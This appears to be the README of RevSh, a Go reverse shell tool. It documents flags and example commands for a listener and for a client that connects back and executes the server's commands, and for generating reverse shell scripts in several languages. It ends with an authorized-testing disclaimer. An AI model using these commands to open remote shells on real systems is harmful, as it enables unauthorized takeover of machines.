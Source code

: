 # RevSh - Reverse Shell

RevSh is a simple reverse shell tool written in Go. It allows you to establish a reverse shell connection between a client and a server, enabling the server to execute commands on the client system. This project also includes functionality to generate reverse shell scripts in various programming languages.

## Features

- **Reverse Shell**: A basic reverse shell that allows a server to execute commands on the client machine.
- **Cross-Platform Support**: The reverse shell works on both Windows and Unix-based systems (Linux/macOS).
- **Script Generation**: Generates reverse shell scripts in multiple languages:
  - PHP
  - Bash
  - Python
  - C#
  - Java

## Usage

### Running the Reverse Shell

You can run RevSh in two modes:

1. **Server Mode**: The server listens for incoming connections from a client.
2. **Client Mode**: The client connects to a server and waits for commands.

### Flags

- `-l`: Run in server mode and listen for incoming reverse shell connections.
- `-r`: Run in reverse shell mode as the client, connecting to the server.
- `-g`: Generate reverse shell scripts in different languages.
- `-p`: Specify the port for communication (default: `9999`).
- `-h`: Specify the server IP address (only used in client mode).

### Examples

#### 1. Running in Server Mode

To start the server, listening for reverse shell connections on port 9999:

```bash
revsh -l -p 9999
```

#### 2. Running in Client Mode

To run the client and connect to the server (e.g., 192.168.1.100) on port 9999:

```bash
revsh -r -h 192.168.1.100 -p 9999
```

#### 3. Generating Reverse Shell Scripts

To generate a reverse shell script in Bash for a target with IP `192.168.1.100` on port `9999`:

```bash
revsh -g -lang bash -h 192.168.1.100 -p 9999
```

Supported languages for script generation:

- `php`
- `bash`
- `python`
- `c#`
- `java`

### Usage Example

#### Server Side:

```bash
$ revsh -l -p 9999
Server listening on port 9999...
Client connected: 192.168.1.101:12345
Shell> whoami
root
Shell> ls
file1.txt
file2.txt
```

#### Client Side:

```bash
$ revsh -r -h 192.168.1.100 -p 9999
Connected to server 192.168.1.100:9999
```

### Exit the Shell

To exit the reverse shell, type `exit` in the server terminal:

```bash
Shell> exit
```

## How It Works

### Server

- The server listens for incoming connections on the specified port.
- Once connected, the server can send commands to the client.
- The client executes the command and returns the result to the server.

### Client

- The client connects to the server's IP and port, awaiting commands.
- When a command is received, the client executes the command on the local system and sends back the output.

## Supported Platforms

- **Windows**
- **Linux**
- **macOS**

## Reverse Shell Script Generation

RevSh can generate reverse shell scripts in various languages. You can use these scripts to trigger reverse shell connections from a remote machine to your server.

## Security Warning

This tool is meant for educational purposes or authorized penetration testing only. Misuse of this tool may lead to legal consequences. Ensure you have proper authorization before using RevSh on any system or network.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
